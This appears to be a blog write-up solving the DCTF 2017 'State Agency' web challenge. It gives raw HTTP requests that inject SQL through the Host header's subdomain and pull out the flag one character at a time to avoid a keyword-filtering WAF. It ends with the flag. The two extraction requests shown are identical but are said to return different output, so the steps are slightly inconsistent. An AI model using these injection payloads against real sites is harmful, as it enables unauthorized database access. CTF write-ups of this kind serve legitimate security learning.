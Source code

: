 ```yaml
---
layout: post
title: "[DCTF 2017] State Agency Writeup"
date: 2018-07-15 11:37 -0300
categories: [dctf, writeups]
tags: [ DCTF, DefCamp, '2017', writeups, CTF,  challange]
---
```

### Description:
This state agency has some secrets. Exfiltrate those.
http://state-agency.tux.ro/

### Author: 
Lucian Nitescu

### Stats: 
382 point / 5 solvers

### Solution:  

The challenge started with this simple website:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/state-agency/img/1.png "1")

Example of an "article":

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/state-agency/img/2.png "2")

By removing the parameters (example: "?Keyium=5889&Name=20+hacker+cats!&Owner=SA&Permission=cHVibGljcHVibGljcHVibGljcHV
ibGljcHVibGljcHVibGlj") we get the same response as before. The only input is the subdomain name. By setting it to 5888 we get:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/state-agency/img/3.png "3")

The answer is a hint to an SQL injection challenge and also when we arrive on 5885 we get:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/state-agency/img/4.png "4")

If we will perform an basic SQL injection in the subdomain name we will get:

```http
GET / HTTP/1.1
Host: 5885 ') or 1 ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/state-agency/img/5.png "5")

The only way to bypass the "WAF" is to avoid certain requests. Also if you obtain in your response "DCTF", "{" or "}" your request will be blocked and you will receive "the Private data exfiltration attempt blocked" response. One way of extracting the flag is to extract characters as such:

HTTP Request:

````http
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: D

HTTP Request:

````http
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: DCT

Until you will get that the flag is: DCTF{8bd68b9d0b517ae71d32c62d7d00cbf27822d5014d1a8483684e19fbea99c44f}